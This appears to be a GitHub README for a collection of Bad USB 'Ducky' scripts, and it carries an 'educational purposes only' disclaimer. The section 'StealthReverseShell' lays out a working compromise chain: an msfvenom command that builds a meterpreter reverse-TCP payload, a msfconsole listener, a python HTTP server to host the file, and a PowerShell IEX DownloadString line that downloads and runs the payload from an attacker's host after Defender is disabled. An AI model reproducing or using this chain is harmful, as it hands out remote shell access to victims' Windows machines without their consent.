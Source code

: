 # **Various Ducky scripts for Bad USBs**
#### **Can be used for pentesting or administrative tasks.** 
#### **For educational puposes only!**
#### **Requires Admin privileges to disable Defender. Otherwise, the payload may be detected.**
#### **Tested and working on WIndows 11**
<br>
###cSteps to Compromise(StealthReverseShell): <br>
1. Create the payload with msfvenom<br/> 
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=AttacksersIP LPORT=AttackersPort -f psh -o PAYLOAD.ps1<br/>
2. Open msfconsole and start listener<br/>
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost IP; set lport PORT; set ExitOnSession false; exploit -j"<br/>
3. Start python http server<br/>
python3 -m http.server 80<br/>
4. Ducky script will download and execute payload session<br/>
IEX(New-Object System.Net.WebClient).DownloadString('http://IPADDR/PAYLOAD.ps1')

## Demonstration Video 
Insert video in markdown

